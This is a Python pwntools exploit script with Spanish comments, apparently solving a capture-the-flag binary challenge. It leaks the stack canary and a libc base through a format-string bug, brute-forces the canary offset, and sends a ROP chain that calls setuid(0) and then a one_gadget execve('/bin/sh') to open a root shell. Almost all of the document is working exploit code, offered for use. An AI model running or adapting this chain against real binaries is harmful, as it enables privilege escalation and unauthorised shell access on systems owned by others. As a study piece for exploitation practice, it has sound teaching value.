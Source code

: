 offset = 0x1c2500 # de R9 que parece estar en libc
#calculamos este gadget con one_gadget (vaya herramienta)
gadget = 0x4484f   #excev(/bin/sh)
setuid = l.symbols['setuid'] # no necesita explicacion
pop_rdi = 0x23a5f #pop rdi ret en libc (por que no?)

#funcion para calcular el canary... no mucho que explicar
def offset_canary(): 
    for i in range(1, 200):
        r = process([TARGET,])
        test = "aaa"
        pattern = "A" * i
        r.sendlineafter("Name: ", test)
        r.readuntil('Code:')
        r.sendline(pattern)
        response = r.recvall()
        
        if "stack smashing detected" in response:
            print "CANARY empieza en ", i
            r.close()
            break
        else:
            print "NAAAAAA siga particopando "
            r.close()

#con esta funcion descrubrimos el offset en canary + 8 bytes (cae en RSP)
def offset_ret(r):
    #r = process([TARGET,])
    test = "%lx-" * 15
    r.sendlineafter("Name: ", test)
    response = r.readuntil('Code:')
    response = response.split('-')
    canary = int(response[-2],16)
    print hex(canary)
    pattern = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII" #encontrado 8 mas (donde empiezan las C)
    payload = "A" * 136 + p64(canary) + pattern

    r.sendline(payload)
    #resp = r.recvall()
    r.interactive()

def exploit(r):
    payload = "%lx-" * 15
    r.sendlineafter("Name: ", payload)
    response = r.readuntil('Code:')
    response = response.split('-')
    print "format strings shits : ", response
    canary = int(response[-2],16)
    print hex(canary)
    libc = int(response[3],16) - offset
    print hex(libc)
    payload = "A" * 136
    payload += p64(canary)
    payload += "B" * 8 #junk hasta ret 
    payload += p64(libc + pop_rdi)
    payload += p64(0x0)  #null para setuid
    payload += p64(libc + setuid) #si vamos a usar esta tecnica ojo con la prueba local
    payload += p64(libc + gadget) #super gadget
    r.sendline(payload)
    r.interactive()
    return
